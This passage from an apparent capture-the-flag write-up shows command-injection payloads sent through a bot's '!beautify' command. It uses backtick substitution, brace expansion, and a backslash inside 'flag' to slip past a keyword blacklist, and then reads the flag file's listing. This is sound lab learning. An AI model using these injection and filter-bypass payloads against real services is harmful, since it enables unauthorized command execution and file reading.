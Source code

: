 
Yay, finally!

```bash
!beautify "\'`{cat,.flag.txt}`\'"
```

```
Your lucky number has been disconnected.
```

Once again, we've hit the blacklist. Indeed, `flag` is in it. PayloadAllTheThings once again, let's try another payload:

```bash
!beautify "\'`{cat,.fl\ag.txt}`\'"
```

Once again, the output is solely `\\`. So there was an error, or the file is empty.

Maybe `.flag.txt` is not readable?

```bash
!beautify "\'`{ls,-l,.fl\ag.txt}`\'"
```

```
__                                                                         __ 
\ \                                                                       /_ |
 \ \ ______ _ ____      ________ _ ____      ________ _ __ ______ ______   | |
  \ \______| '__\ \ /\ / /______| '__\ \ /\ / /______| '__|______|______|  | |
   \ \     | |   \ V  V /       | |   \ V  V /       | |                   | |
    \_\    |_|    \_/\_/        |_|    \_/\_/        |_|                   |_|


                 _                     _     _  _  __   _   _              __ 
                | |                   | |   | || |/_ | | \ | |            /_ |
 _ __ ___   ___ | |_   _ __ ___   ___ | |_  | || |_| | |  \| | _____   __  | |
| '__/ _ \ / _ \| __| | '__/ _ \ / _ \| __| |__   _| | | . ` |/ _ \ \ / /  | |
| | | (_) | (_) | |_  | | | (_) | (_) | |_     | | | | | |\  | (_) \ V /   | |
|_|  \___/ \___/ \__| |_|  \___/ \___/ \__|    |_| |_| |_| \_|\___/ \_/    |_|


 __   __   ____  _____      __ _              _        ___     
/_ | / / _|___ \| ____|    / _| |            | |      | \ \    
 | |/ /_(_) __) | |__     | |_| | __ _  __ _ | |___  _| |\ \   
 | | '_ \  |__ <|___ \    |  _| |/ _` |/ _` || __\ \/ / __\ \  
 | | (_) | ___) |___) |  _| | | | (_| | (_| || |_ >  <| |_ \ \ 
 |_|\___(_)____/|____/  (_)_| |_|\__,_|\__, (_)__/_/\_\\__| \_\
                                        __/ |                  
                                       |___/                   
```

A little bit hard to read, but what we can understand is:

- File owned by `root:root`, with `664` permissions. At the very least, we can read the file.

- File size is `41`, so the file is **not** empty.
